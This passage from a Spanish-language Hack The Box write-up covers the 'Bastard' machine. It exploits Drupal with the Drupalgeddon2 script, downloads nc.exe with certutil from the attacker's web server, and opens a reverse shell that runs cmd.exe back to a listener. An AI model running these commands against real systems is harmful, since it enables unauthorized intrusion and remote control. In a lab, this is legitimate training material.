Listos, ejecutémoslo contra el recurso:

```bash
❱ ruby drupalgeddon2.rb http://10.10.10.9
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastard/7bash_drupalgeddonRBexploit_rce1.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Bien, el programa nos indica que existe la vuln y tiene posibilidad de ejecutar comandos, después de eso hace unas pruebas para escribir un archivo en el sistema yyyyy finalmente obtenemos la **Fake Shell**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastard/7bash_drupalgeddonRBexploit_rce2.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Liiiiistones, "tamos" en la máquina, pero medio feo estar en una **Fake Shell**, así que subamos el binario `nc.exe` y entablémonos una Reverse Shell:

Nos posicionamos en la ruta donde esté el binario y levantamos un servidor web:

```bash
❱ python3 -m http.server
```

Y ahora desde la **Fake** le decimos que busque en ese servidor web el archivo `nc.exe` y lo suba a nuestra ruta actual:

```bash
drupalgeddon2>> certutil.exe -f -urlcache -split http://10.10.14.8:8000/nc.exe nc.exe
```

Y ya tendríamos el binario en la máquina:

```powershell
drupalgeddon2>> dir
Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

 Directory of C:\inetpub\drupal-7.54

...
10/08/2021  25:25             45.272 nc.exe
...
```

Ahora nos ponemos en escucha por algún puerto, en mi caso el `4433`:

```bash
❱ nc -lvp 4433
```

Y en la máquina víctima ejecutamos:

```bash
drupalgeddon2>> .\nc.exe 10.10.14.8 4433 -e cmd.exe
```

Donde le indicamos que envíe una petición a nuestro listener y una vez se entable la conexión nos ejecute `cmd.exe`, o sea una terminal **CMD**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastard/7bash_iusrRevSH_DONE.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>
